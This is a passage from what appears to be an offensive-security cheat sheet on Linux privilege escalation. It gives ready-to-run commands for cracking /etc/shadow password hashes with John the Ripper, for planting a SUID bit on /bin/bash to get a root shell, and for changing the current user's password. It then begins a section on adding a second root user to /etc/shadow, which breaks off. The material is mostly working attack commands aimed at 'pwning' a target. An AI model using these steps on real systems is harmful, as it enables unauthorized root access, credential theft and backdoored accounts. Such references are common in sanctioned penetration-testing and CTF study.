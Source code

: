 ### 3. Crack Passwords

```sh
john --wordlist=wordlist.txt passwords.txt

# If the hash in /etc/shadow contains the $y$ prefix, specify the hash format to "crypt".
# btw, $ye$ is the scheme of the yescrypt.
john --format=crypt --wordlist=wordlist.txt passwords.txt
```

<br />

## Execute Commands as Root Privilege

### Change Shebang in Shell Script

Add "-p" option at the first line to execute the script as root privilege.

```sh
#!/bin/bash -p
whoami
```

### Use the Set User ID (SUID)

If you can change permission of the **/bin/bash** , add **SUID** to the file.

```sh
chmod 4755 /bin/bash
```

Then you execute it as root privilege by adding "-p" option.  
You'll be able to pwn the target shell.

```sh
user@machine:~/$ /bin/bash -p
root@machine:~/$ whoami
root
```

<br />

## Update Sensitive Information

### 1. Change Password of Current User

We need to know the current user's password.

```sh
echo -n '<current-password>\n<new-password>\n<new-password>' | passwd
```

### 2. Add Another Root User to /etc/shadow

1. **Generate New Password**

